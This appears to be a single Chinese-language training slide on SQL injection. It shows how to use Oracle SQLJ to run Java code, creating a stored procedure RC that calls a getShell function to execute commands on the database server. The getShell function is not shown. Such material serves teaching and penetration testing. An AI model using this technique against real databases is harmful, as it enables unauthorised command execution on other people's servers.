

# SQL注入
Oracle SQLJ编译执行Java代码：
创建存储过程：
create or replace procedure RC(p in varChar, c in varChar)
as
x number;
begin
x := getShell(p,c);
end;